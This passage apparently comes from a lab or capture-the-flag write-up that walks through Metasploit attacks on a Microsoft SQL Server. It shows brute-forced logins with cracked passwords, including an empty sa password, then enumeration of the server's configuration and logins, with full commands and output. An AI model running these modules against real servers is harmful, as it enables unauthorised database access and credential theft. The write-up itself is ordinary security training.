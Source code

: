 ```bash
[*] 10.4.23.176:1433      - 10.4.23.176:1433 - MSSQL - Starting authentication scanner.
[+] 10.4.23.176:1433      - 10.4.23.176:1433 - Login Successful: WORKSTATION\sa:
[+] 10.4.23.176:1433      - 10.4.23.176:1433 - Login Successful: WORKSTATION\dbadmin:anamaria
[+] 10.4.23.176:1433      - 10.4.23.176:1433 - Login Successful: WORKSTATION\auditor:nikita
```

![Metasploit - mssql_login](assets/image-20230219193931380.png)

> 📌 **`sa`** user has `empty password`.



<details><summary>Reveal Flag - other users and passwords are: 🚩</summary></details>



```bash
use auxiliary/admin/mssql/mssql_enum
set RHOSTS 10.4.23.176
exploit
```

![Metasploit - mssql_enum](assets/image-20230219194339939.png)

![](assets/image-20230219194421628.png)

![](assets/image-20230219194438863.png)

```bash
use auxiliary/admin/mssql/mssql_enum_sql_logins
set RHOSTS 10.4.23.176
exploit
```

```bash
[*] 10.4.23.176:1433 - Attempting to connect to the database server at 10.4.23.176:1433 as sa...
[+] 10.4.23.176:1433 - Connected.
[*] 10.4.23.176:1433 - Checking if sa has the sysadmin role...
[+] 10.4.23.176:1433 - sa is a sysadmin.
[*] 10.4.23.176:1433 - Setup to fuzz 300 SQL Server logins.
[*] 10.4.23.176:1433 - Enumerating logins...
[+] 10.4.23.176:1433 - 38 initial SQL Server logins were found.
[*] 10.4.23.176:1433 - Verifying the SQL Server logins...
[+] 10.4.23.176:1433 - 16 SQL Server logins were verified:
[*] 10.4.23.176:1433 -  - ##MS_PolicyEventProcessingLogin##
[*] 10.4.23.176:1433 -  - ##MS_PolicyTsqlExecutionLogin##
[*] 10.4.23.176:1433 -  - ##MS_SQLAuthenticatorCertificate##
[*] 10.4.23.176:1433 -  - ##MS_SQLReplicationSigningCertificate##
[*] 10.4.23.176:1433 -  - ##MS_SQLResourceSigningCertificate##
[*] 10.4.23.176:1433 -  - BUILTIN\Users
[*] 10.4.23.176:1433 -  - EC2AMAZ-5861GL6\Administrator
[*] 10.4.23.176:1433 -  - NT AUTHORITY\SYSTEM
[*] 10.4.23.176:1433 -  - NT SERVICE\SQLTELEMETRY$SQLEXPRESS
[*] 10.4.23.176:1433 -  - NT SERVICE\SQLWriter
[*] 10.4.23.176:1433 -  - NT SERVICE\Winmgmt
[*] 10.4.23.176:1433 -  - NT Service\MSSQL$SQLEXPRESS
[*] 10.4.23.176:1433 -  - admin
[*] 10.4.23.176:1433 -  - auditor
[*] 10.4.23.176:1433 -  - dbadmin
[*] 10.4.23.176:1433 -  - sa
[*] Auxiliary module execution completed
```
